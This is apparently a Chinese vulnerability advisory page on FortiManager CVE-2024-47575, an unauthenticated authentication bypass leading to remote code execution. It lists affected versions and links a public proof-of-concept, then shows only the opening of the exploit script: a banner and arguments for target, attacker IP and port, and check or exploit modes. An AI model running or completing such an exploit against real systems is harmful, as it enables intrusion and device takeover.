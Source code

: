 # FortiManager身份认证绕过漏洞(CVE-2024-47575)

**Fortinet FortiManager 身份认证绕过漏洞(CVE-2024-47575)**，未经身份验证的远程攻击者可以使用有效的 FortiGate 证书在 FortiManager 中注册未经授权的设备。成功利用漏洞后攻击者将能够查看和修改文件（例如配置文件）以获取敏感信息，并能够管理其他设备执行任意代码或命令。

## **影响版本**

7.6.0 <= FortiManager 7.6.* <= 7.6.0

7.4.0 <= FortiManager 7.4.* <= 7.4.4

7.2.0 <= FortiManager 7.2.* <= 7.2.7

7.0.0 <= FortiManager 7.0.* <= 7.0.12

6.4.0 <= FortiManager 6.4.* <= 6.4.14

6.2.0 <= FortiManager 6.2.* <= 6.2.12

7.4.1 <= FortiManager Cloud 7.4.* <= 7.4.4

7.2.1 <= FortiManager Cloud 7.2.* <= 7.2.7

7.0.1 <= FortiManager Cloud 7.0.* <= 7.0.12

FortiManager Cloud 6.4.*

## poc

脚本来源 https://github.com/watchtowrlabs/Fortijump-Exploit-CVE-2024-47575

```python
import socket
import struct
import ssl
import argparse
import random
from time import sleep



banner = """			 __         ___  ___________                   
	 __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
	 \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
	  \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
	   \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
				  \\/          \\/     \\/                            

        CVE-2024-47575.py
        (*) FortiManager Unauthenticated Remote Code Execution (CVE-2024-47575) exploit by watchTowr
        
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)

        CVEs: [CVE-2024-47575]
"""


print(banner)
parser = argparse.ArgumentParser(description='FortiManager CVE-2024-47575 exploit')
parser.add_argument('--target', type=str, help='Target IP', required=True)
parser.add_argument('--lhost', type=str, help='attacker IP', required=False, default='empty')
parser.add_argument('--lport', type=str, help='attacker PORT', required=False, default='empty')
parser.add_argument('--action', type=str, choices=['check', 'exploit'], help='Choose an action: "check" or "exploit"', required=True)
args = parser.parse_args()

```